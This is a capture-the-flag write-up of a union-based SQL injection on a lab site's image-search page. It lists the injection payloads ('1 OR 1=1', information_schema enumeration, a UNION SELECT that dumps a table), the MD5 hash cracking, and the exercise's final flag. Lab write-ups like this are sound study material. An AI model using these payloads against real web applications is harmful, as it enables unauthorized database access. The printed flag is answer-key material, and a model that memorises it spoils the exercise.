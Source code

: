 # UNION BASED SQL INJECTION

## Flag
```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Discovery
go to
```
 http://{IP_ADDRESS}/?page=searchimg
```
tryed a simple sql statement 
```
1 OR 1=1 
The SQL above is valid and will return ALL rows from the "users" table, since OR 1=1 is always TRUE.
```

Retrieve columns names with the table they belong to:
```
1 UNION SELECT table_name,column_name FROM information_schema.COLUMNS 
```
> id, url, title, comment

the command below will retrieve all image's data
```
1 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
```

the result shows this interesting image with title (Hack me ?):

|   id    |               url                   |   title   |                                                      comment      	                                                 |
| ------- | ----------------------------------- | --------- | ---------------------------------------------------------------------------------------------------------------------- |
|   5     | borntosec.ddns.net/images.png       | Hack me ? |  If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |

following the instruction :
* analyzing the password using [cipher identifier](https://www.dcode.fr/cipher-identifier)
* decrypt the password using [md5decrypt - md5](https://md5decrypt.net/en/)
* 1928e8083cf461a51303633093573c46 gives albatroz 
* lower all the char, encrypt it using Sh256
* flag is f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## Helpers:
- [retrieve data from db](https://www.sqlinjection.net/table-names/)
- [dcode - cipher identifier](https://www.dcode.fr/cipher-identifier)
- [md5decrypt - md5](https://md5decrypt.net/en/)

## Ressources
- [Owasp SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)